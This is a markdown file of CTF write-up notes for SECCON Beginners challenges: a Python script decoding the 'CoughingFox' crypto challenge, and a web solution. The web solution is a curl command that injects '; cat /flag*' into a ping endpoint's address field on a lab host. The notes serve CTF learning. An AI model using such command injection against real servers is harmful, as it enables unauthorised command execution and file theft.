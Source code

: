 # SECCON Beginners CTF 2021

- https://github.com/SECCON/Beginners_CTF_2022

## Crypto

### CoughingFox

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=300s

#### Solution 1

```python
#!/usr/bin/env python3
from gmpy2 import isqrt
# c = (f + i)**2 + i
# f = sqrt(c - i) - i
# sqrt() が整数になるかどうかで i を判定する
cipher = [12147, 20481, 7073, 10408, 26615, 19066, 19363, 10852, 11705, 17445, 3028, 10640, 10623, 13243, 5789, 17436, 12348, 10818, 15891, 2818, 13690, 11671, 6410, 16649, 15905, 22240, 7096, 9801, 6090, 9624, 16660, 18531, 22533, 24381, 14909, 17705, 16389, 21346, 19626, 29977, 23452, 14895, 17452, 17733, 22235, 24687, 15649, 21941, 11472]
length = len(cipher)
flag = [0] * length
for c in cipher:
    for i in range(length):
        root = isqrt(c - i)
        if root**2 == c - i:
            flag[i] = root - i
            break
print(''.join([chr(ch) for ch in flag]))
```

### PrimeParty

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=948s

#### Solution 1

## Web

### util

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=550s

#### Solution 1

- 開発者ツール > Network > Name > `ping` を右クリック、Copy > Copy as cURL (bash)

```zsh
curl 'https://172.23.177.114/util/ping' \
  -H 'Content-Type: application/json' \
  --data-raw '{"address":"127.0.0.1; cat /flag*"}' \
  --insecure |
  jq .result | grep -o 'ctf4b{.*}'
```

